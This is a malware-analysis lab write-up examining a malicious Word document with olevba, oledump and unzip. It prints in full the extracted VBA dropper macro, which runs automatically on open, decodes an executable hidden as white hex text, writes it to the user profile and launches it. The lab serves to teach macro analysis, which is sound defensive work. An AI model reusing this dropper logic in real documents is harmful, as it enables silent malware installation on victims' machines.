

# Lab 3.9: Examing message.docm

- [Lab 3.9: Examing message.docm](#lab-39-examing-messagedocm)
  - [Objectives](#objectives)
  - [Steps](#steps)
  - [1 - Use olevba.py to extract macros from message.docm](#1---use-olevbapy-to-extract-macros-from-messagedocm)
  - [2 - Use oledump.py to extract macros from message.docm](#2---use-oledumppy-to-extract-macros-from-messagedocm)
  - [3 - With the help of unzip, examine the contents of message.docm to locate the embedded executable in its encoded form](#3---with-the-help-of-unzip-examine-the-contents-of-messagedocm-to-locate-the-embedded-executable-in-its-encoded-form)
  - [4 - Use message_extract.py to extract the embedded executable file from message.docm](#4---use-message_extractpy-to-extract-the-embedded-executable-file-from-messagedocm)

---

## Objectives

- Gain familiarity with dropper capabilities of malicious Microsoft Office macros.
- Reinforce the use of `olevba.py` and `oledump.py` to extract macros from Microsoft Office documents.

<br/>

---

## Steps

1. Use `olevba.py` to extract macros from `message.docm` and examine the results.
2. Use `oledump.py` to extract macros from `message.docm`.
3. With the help of unzip, examine the contents of `message.docm` to locate the embedded executable in its encoded form.
4. If there is time, use the supplied `message_extract.py` script to extract the embedded executable file from `message.docm`

<br/>

---

## 1 - Use olevba.py to extract macros from message.docm

Unzip the archive:

```
unzip message.zip -d message; cd message; ls
```

  

<br/>

Use `olevba.py` to extract the macro:

```
olevba.py message.docm | more
```

- The extract content is as follows:

```
-------------------------------------------------------------------------------
VBA MACRO doc.bas 
in file: word/vbaProject.bin - OLE stream: u'VBA/doc'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
Sub Auto_Open()
    Weccv12
End Sub
Sub Weccv12()
    Dim Weccv7 As Integer
    Dim Weccv1 As String
    Dim Weccv2 As String
    Dim Weccv3 As Integer
    Dim Weccv4 As Paragraph
    Dim Weccv8 As Integer
    Dim Weccv9 As Boolean
    Dim Weccv5 As Integer
    Dim Weccv11 As String
    Dim Weccv6 As Byte
    Dim Kzmwwxlrlw As String
    Kzmwwxlrlw = "Kzmwwxlrlw"
    Weccv1 = "BrhotakdNdVMM.exe"
    Weccv2 = Environ("USERPROFILE")
    ChDrive (Weccv2)
    ChDir (Weccv2)
    Weccv3 = FreeFile()
    Open Weccv1 For Binary As Weccv3
    For Each Weccv4 In ActiveDocument.Paragraphs
        DoEvents
            Weccv11 = Weccv4.Range.Text
        If (Weccv9 = True) Then
            Weccv8 = 1
            While (Weccv8 < Len(Weccv11))
                Weccv6 = Mid(Weccv11, Weccv8, 4)
                Put #Weccv3, , Weccv6
                Weccv8 = Weccv8 + 4
            Wend
        ElseIf (InStr(1, Weccv11, Kzmwwxlrlw) > 0 And Len(Weccv11) > 0) Then
            Weccv9 = True
        End If
    Next
    Close #Weccv3
    Weccv13 (Weccv1)
End Sub
Sub Weccv13(Weccv10 As String)
    Dim Weccv7 As Integer
    Dim Weccv2 As String
    Weccv2 = Environ("USERPROFILE")
    ChDrive (Weccv2)
    ChDir (Weccv2)
    Weccv7 = Shell(Weccv10)
End Sub
Sub AutoOpen()
    Auto_Open
End Sub
Sub Workbook_Open()
    Auto_Open
End Sub
+------------+-------------------+-----------------------------------------+
| Type       | Keyword           | Description                             |
+------------+-------------------+-----------------------------------------+
| AutoExec   | AutoOpen          | Runs when the Word document is opened   |
| AutoExec   | Auto_Open         | Runs when the Excel Workbook is opened  |
| AutoExec   | Workbook_Open     | Runs when the Excel Workbook is opened  |
| Suspicious | Open              | May open a file                         |
| Suspicious | Shell             | May run an executable file or a system  |
|            |                   | command                                 |
| Suspicious | Binary            | May read or write a binary file (if     |
|            |                   | combined with Open)                     |
| Suspicious | Environ           | May read system environment variables   |
| Suspicious | Put               | May write to a file (if combined with   |
|            |                   | Open)                                   |
| IOC        | BrhotakdNdVMM.exe | Executable file name                    |
+------------+-------------------+-----------------------------------------+

```

- `Weccv1 = "BrhotakdNdVMM.exe"` --> This shows an executable name
- `For Each Weccv4 In ActiveDocument.Paragraphs` --> Look like there is a loop enumerating the current document content
- `Weccv2 = Environ("USERPROFILE")` --> Suspected destination location of th executable

<br/>

---

## 2 - Use oledump.py to extract macros from message.docm

Unzip the document first:

```
unzip message.docm -d message_unzip; cd message_unzip
```

  

<br/>

Then use `oledump.py` to list the stream of the `vbaProject.bin` file:

```
oledump.py ./word/vbaProject.bin 
```

  

- Stream 6 contains the macro as indicated by the `M` label

<br/>

Dump the macro:

```
oledump.py ./word/vbaProject.bin -s 6 -v | more
```

  

- Same result as in #1

<br/>

---

## 3 - With the help of unzip, examine the contents of message.docm to locate the embedded executable in its encoded form

Unzip is done in #2.

<br/>

To inspect the content of the document, we can inspect the file `word/document.xml` file:

  

- There are content in HEX format
- The text is set to be white in color

<br/>

---

## 4 - Use message_extract.py to extract the embedded executable file from message.docm

```
python message_extract.py message.docm decoded
file decoded
```

  

- The output file is a PE file
- MD5 hash: `d60793d9e059fcc754f4929b2369db5a`

<br/>

---